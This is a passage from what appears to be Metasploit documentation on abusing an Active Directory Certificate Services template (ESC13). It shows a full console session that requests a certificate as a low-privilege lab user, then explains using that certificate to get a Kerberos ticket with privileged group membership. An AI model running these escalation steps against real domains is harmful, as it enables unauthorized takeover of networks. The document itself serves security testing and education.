 ```
[*]             * S-1-5-21-3474343397-3755413101-2031708755-519 (Enterprise Admins)
[*]             * S-1-5-21-3474343397-3755413101-2031708755-512 (Domain Admins)
```

In this case, the ticket can be issued with the `icpr_cert` module. No additional options are required to issue the
certificate beyond the standard `CA`, `CERT_TEMPLATE`, target and authentication options.

```
msf6 > use auxiliary/admin/dcerpc/icpr_cert 
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normaluser
SMBUser => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBDomain COLLALABS1
SMBDomain => COLLALABS1
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normalpass
SMBPass => normalpass
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA collalabs1-SRV-ADDS01-CA
CA => collalabs1-SRV-ADDS01-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC13-Test
CERT_TEMPLATE => ESC13-Test
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate Email: normaluser@collalabs1.local
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3474343397-3755413101-2031708755-10051
[*] 172.30.239.85:445 - Certificate UPN: normaluser@collalabs1.local
[*] 172.30.239.85:445 - Certificate stored at: /home/normaluser/.msf4/loot/20240226170310_default_172.30.239.85_windows.ad.cs_917878.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

We can then use the `kerberos/get_ticket` module to gain a Kerberos ticket granting ticket (TGT) with the `ESC13-Group`
RID present in the Groups field of the TGT PAC.

# Authenticating With A Certificate
Metasploit supports authenticating with certificates in a couple of different ways. These techniques can be used to take
further actions once a certificate has been issued for a particular identity (such as a Domain Admin user).

## Authenticating To Kerberos
Certificates can be used to authenticate to Kerberos using the [[kerberos/get_ticket|kerberos/get_ticket.md]] module by
specifying the `CERT_FILE` option. Take the certificate file from the last stage of the attack and set it as the
`CERT_FILE`. Certificates from Metasploit do not require a password, but if the certificate was generated from a source
that added one, it can be specified in the `CERT_PASSWORD` option. Set the `RHOST` to the Domain Controller which is the
Key Distribution Center (KDC) for the Active Directory environment.
